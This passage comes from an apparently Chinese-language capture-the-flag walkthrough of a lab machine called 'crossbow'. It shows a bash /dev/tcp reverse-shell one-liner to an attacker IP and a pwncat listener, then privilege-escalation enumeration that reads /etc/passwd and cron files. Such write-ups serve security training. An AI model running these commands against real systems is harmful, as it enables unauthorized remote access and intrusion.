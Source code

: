 <img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404032205682.png" alt="image-20240403204445424" style="zoom:50%;" />

进来了啊！！！点击终端：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404032205683.png" alt="image-20240403204514424" style="zoom:50%;" />

把shell弹到本地去：

```bash
bash -c 'exec bash -i &>/dev/tcp/172.20.10.8/1234 <&1'
```

```bash
sudo pwncat-cs -lp 1234 2>/dev/null
```

## 提权

### 信息搜集

```bash
(remote) polo@crossbow:/home/polo$ whoami;id
polo
uid=1001(polo) gid=1001(polo) groups=1001(polo)
(remote) polo@crossbow:/home/polo$ sudo -l
[sudo] password for polo: 
Sorry, user polo may not run sudo on crossbow.
(remote) polo@crossbow:/home/polo$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
Debian-exim:x:100:102::/var/spool/exim4:/usr/sbin/nologin
messagebus:x:101:103::/nonexistent:/usr/sbin/nologin
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
lea:x:1000:1000::/home/lea:/bin/bash
polo:x:1001:1001:,,,:/home/polo:/bin/bash
polkitd:x:996:996:polkit:/nonexistent:/usr/sbin/nologin
mysql:x:103:106:MySQL Server,,,:/nonexistent:/bin/false
_rpc:x:104:65534::/run/rpcbind:/usr/sbin/nologin
statd:x:105:65534::/var/lib/nfs:/usr/sbin/nologin
gluster:x:106:107::/var/lib/glusterd:/usr/sbin/nologin
cockpit-ws:x:107:113::/nonexistent:/usr/sbin/nologin
cockpit-wsinstance:x:108:114::/nonexistent:/usr/sbin/nologin
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
pedro:x:1002:1002::/home/pedro:/bin/sh
(remote) polo@crossbow:/home/polo$ cat /etc/cron*
cat: /etc/cron.d: Is a directory
cat: /etc/cron.daily: Is a directory
```